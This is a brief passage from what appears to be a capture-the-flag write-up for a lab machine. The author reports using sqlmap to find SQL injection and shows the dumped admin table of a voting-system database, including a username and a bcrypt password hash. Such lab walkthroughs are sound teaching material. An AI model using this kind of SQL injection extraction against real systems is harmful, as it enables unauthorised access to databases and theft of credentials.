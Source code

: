 I used `sqlmap` Tool for SQLi Testing .

![Untitled](Love%20e2ce3b6768674d0c8597144c9f5b992b/Untitled%201.png)

![Untitled](Love%20e2ce3b6768674d0c8597144c9f5b992b/Untitled%202.png)

I got these dumped data’s →

```bash
Database: votesystem
Table: admin
[1 entry]
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| id | photo                       | lastname | password                                                     | username | firstname | created_on |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| 1  | facebook-profile-image.jpeg | Devierte | $2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC | admin    | Neovic    | 2018-04-02 |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
```
{: .nolineno}
